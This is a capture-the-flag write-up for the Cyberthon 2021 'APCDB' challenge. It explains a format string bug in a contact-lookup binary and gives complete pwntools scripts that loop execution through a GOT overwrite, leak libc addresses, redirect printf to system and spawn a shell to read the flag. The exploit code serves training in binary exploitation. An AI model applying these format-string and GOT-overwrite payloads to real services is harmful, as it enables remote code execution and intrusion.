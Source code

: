 # APCDB

---

### Challenge Description

> We've found a network service that seems to be posing as a fake directory of APOCALYPSE members. Although it doesn't seem to be hooked up to any actual database, it does look a tad vulnerable. Could u try to break in anyway? Who knows, access to this server might come in useful.

> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30201

> Note: once you get a shell, the flag.txt can be found in the user's home directory.

[apcdb.zip](https://github.com/caprinux/Cyberthon-2021/files/6445766/apcdb.zip)

---

### Walkthrough 

Running the binary provided, we are presented with a contact lookup page as such:

![image](https://user-images.githubusercontent.com/76640319/117537475-b1ef4200-b033-11eb-9ecf-77db4dc27d0f.png)

Let's take a closer look at whats going on by decompiling it in IDA.

```c
{
  char format[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setup_IO(argc, argv, envp);
  banner();
  printf("[+] Contact Lookup: ");
  __isoc99_scanf("%255s", format);
  puts(s);
  printf("[+] Looking up contact for ");
  printf(format);
  puts("...");
  puts("[-] Sorry, no such member!");
  exit(0);
}
```

Let's break down what the program is doing here:

1. It prints a **banner()**
2. It scans in **%255s** worth of input into `format[264]`. _no bof :(_
3. It **printf(format)** _aka our input_ which gives us a format string vulnerability.
4. It then exits the program.

Upon reading the source code, it becomes apparently clear that we have to do a format string exploit in order to win.

However, there are no calls to system which makes it difficult for us to just do our usual **change someones GOT into system**.

But if you think a little bit more, how else can we call system? We could do ret2libc once again! 

Now that we have the idea in mind, how are we going to exploit it? 

Heres our plan:

1. We have to first loop the program back so that our program doesnt just simply close after one loop.
2. We have to leak the LIBC of the functions so we are able to find the LIBC used and obtain our offset.
3. Find an ideal function to overwrite such that we can execute `system('/bin/sh')` and obtain a shell. _the only function that seems usable is printf_

Let's start!

---

### Exploitation

Our first objective is to loop the program back continuously. This can be done by overwriting **GOT entry for exit() to the address of main**.

This is so that everytime the program tries to exit, it goes back to main instead.

Since PIE is not enabled, our GOT addresses will remain constant so we can easily find the addresses we need, made even easier with pwntools.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)

context.binary = elf = ELF('apcdb')
exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))
p.interactive()
'''
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/abcdb/apcdb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

 ] Exit: 0x601040
'''
```

Next, we find the offset of our input with a simple payload ```AAAAAAAA.%p.%p.%p.%p.%p.%p```.

![image](https://user-images.githubusercontent.com/76640319/117538307-3217a680-b038-11eb-8bf8-9b51e4f6af43.png)

As you can see, our input offset is just nice on the 6th format string. Hence our offset is 6.

With that, we have everything we need to leak our global offset table values.

Initially, I tried sending `p.sendline(p64(elf.got.printf) + b'%6$s')` to the program. However it did not yield me my expected leak.

This is because the scanf only reads up till the null terminator. Consider this:

![image](https://user-images.githubusercontent.com/76640319/117538662-d5b58680-b039-11eb-86d9-715a1a9f1ab2.png)

Anyways, this means that we will have to put our format string at the start and our leak behind.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")


p.interactive()

'''
[*] Printf is 0x7f4b82cb6f70
[*] Puts is 0x7f4b82cd2aa0
'''
```

By looking up the addresses of printf and puts in blukat, we find our libc.

![image](https://user-images.githubusercontent.com/76640319/117539045-47da9b00-b03b-11eb-94a6-fd8bbc54dd2c.png)

We can now calculate the libc base by using our leak to minus the libc symbol.

With the libc base, we can find libc symbol for system, thus allowing us to overwrite **printf GOT entry with libc system**.

Thus the next time we send **/bin/sh\x00** as our input, it will be executed by system rather than printf and we get a shell.

```py
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')
libc = ELF('libc6_2.27-3ubuntu1.4_amd64.so')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")

libc.address = printf - libc.sym.printf

p.sendline(fmtstr_payload(6, {elf.got.printf: libc.sym.system}))

p.sendline('/bin/sh\x00')
p.clean()
p.sendline('cat */*/flag*')
print(p.recvline())
```

```
b'Cyberthon{f4k3_c0nt4ct5_f41lur3}\n'
```


